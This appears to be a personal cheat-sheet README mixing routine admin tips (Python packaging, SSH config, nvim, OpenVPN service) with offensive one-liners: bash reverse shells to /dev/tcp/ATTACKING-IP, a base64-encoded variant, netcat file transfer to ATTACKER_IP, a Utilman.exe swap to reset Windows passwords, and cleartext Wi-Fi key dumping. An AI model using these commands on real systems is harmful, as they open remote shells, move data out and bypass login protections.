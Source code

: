 ### Tip-pipenv-poetry >[!CHECK]
**Use pipenv with poetry for python packaging-management and version control**
- first use pipenv to create a virtual project inside the folder with a python version different that the system one
- use poetry for packages control and use the env POETRY_VIRTUALENVS_PREFER_ACTIVE_PYTHON=True for this to work merely correctly; also need to activate the shell of pipenv and a child shell for poetry

### Create App Password on google Account
- Log in to the account, go to manage account, security, activate 2 steps authentication, and use this link if cannot see 
- [Create app password function](https://myaccount.google.com/apppasswords)

### A litle bit of NMAP
- a basic scan for all 65535 ports looking for open ones:
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn {IP} -oG allPorts`

### Read .db files using python
- `python -c "import sqlite3; print(sqlite3.connect('database_name.db').cursor().execute('SELECT * FROM table_name').fetchall())"`

### Netcat
- Listen `nc -vnl -s HOST -p PORT`
- Copy CLIENT `nc -w 3 ATTACKER_IP ATTACKER_PORT < [file_to_download] SERVER nc -l -s HOST -p PORT > [path_to_save]`

### Bash connects
- Connections `"/bin/bash -c 'bash -i >& /dev/tcp/ATTACKING-IP/PORT 0>&1'"`
- Encripted `echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0`

### Read json in bash with python
- `curl -s 'https://api.github.com/users/lambda' | \
    python3 -c "import sys, json; print(json.load(sys.stdin)['name'])"`

### Read json in bash with jq
- `curl -s 'https://api.github.com/users/lambda' | jq -r '.name'`

### Python PSEUDOshell
- `python -c 'import pty; pty.spawn("/bin/bash")'`

### SSH forwarding
- `ssh -D [LOCALADDR:]LOCALPORT -N(just forward connections) -C(compress(better-on-slow-networks)) user@ip`

### Create a service
```
[Unit]
Description=Shadowsocks proxy server
Requires
After

[Service]
Type
RemainAfterExit
User=root
Group=root
Type=simple
WorkingDirectory
ExecStart=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v start
ExecStop=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v stop
TimeoutStartSec

[Install]
WantedBy=multi-user.target
```

### Make NVIM remember last cursor position (pure lua)
```
local group = vim.api.nvim_create_augroup("jump_last_position", { clear = true })
vim.api.nvim_create_autocmd(
	"BufReadPost",
	{callback = function()
			local row, col = unpack(vim.api.nvim_buf_get_mark(0, "\""))
			if {row, col} ~= {0, 0} then
				vim.api.nvim_win_set_cursor(0, {row, 0})
			end
		end,
	group = group
	}
)
```

### Bypass Out Of the Box Experience (windows 11 Internet Requirement)
- In the 'Let's connect you to a network' screen, press `shift+F10` to launch cmd
- Type the following command: `OOBE\BYPASSNRO`
- After the successful execution the system should restart.

### Wlan profiles clear in Windows
- `netsh`
- `netsh wlan`
- `show profiles ssid key="clear"`

### Recover password on windows without reinstall
- On login windows press and hold shift and reboot the pc. Then recovery window will pop up, enter to troubleshooting,
- advanced options, command prompt. Then:
1. copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exebak
2. copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /y
- Reboot again. On login screen got to accessibility press it and a command prompt will appear:
3. net localgroup administrastors
- The list of account shows up, select the one to reset its password:
4. net user your_username *
- Change the password and done.
*Don't forget to restore utilman to its original state*

### PROMISC mode on linux
```
auto eth1
iface eth1 inet manual
  up ifconfig $IFACE 0.0.0.0 up
  up ip link set $IFACE promisc on
  down ip link set $IFACE promisc off
  down ifconfig $IFACE down
```

### On windows, free port range that are in use
- discovery the ports
`netsh interface ipv4 show excludedportrange protocol=tcp`
- release the ports
`net stop winnat`

### Use ssh keys with ssh-config-file
- generate the key pair with ssh
`ssh-keygen -t ed25519 -C "a comment"`
- create a config file inside the .ssh folder that follows this schema:
```
Host name-of-the-configuration
  HostName  gitlab/github.com/ip/hostname
  User git/remote-host-username
  PreferredAuthentications publickey
  IdentifyFile path/to/private/identity/file
```
Configure the remote host with the public ssh key generated

### Openvpn as linux service
- Configure openvpn:
    install openvpn, openvpn-systemd-resolved, openresolv
`sudo wget "https://raw.githubusercontent.com/ProtonVPN/scripts/master/update-resolv-conf.sh" -O "/etc/openvpn/update-resolv-conf"`
`sudo chmod +x "/etc/openvpn/update-resolv-conf"`
- save the openvpn server config file into /etc/openvpn as openvpn.conf
- save the credentials in the first two lines of a textplain file called auth.txt with chmod 400. Put it in /etc/openvpn
- Add/edit this lines in the openvpn.conf file created
`auth-user-pass auth.txt`
`status /etc/openvpn/openvpn-status.log`
`log /etc/openvpn/openvpn.log`


### EOF ###
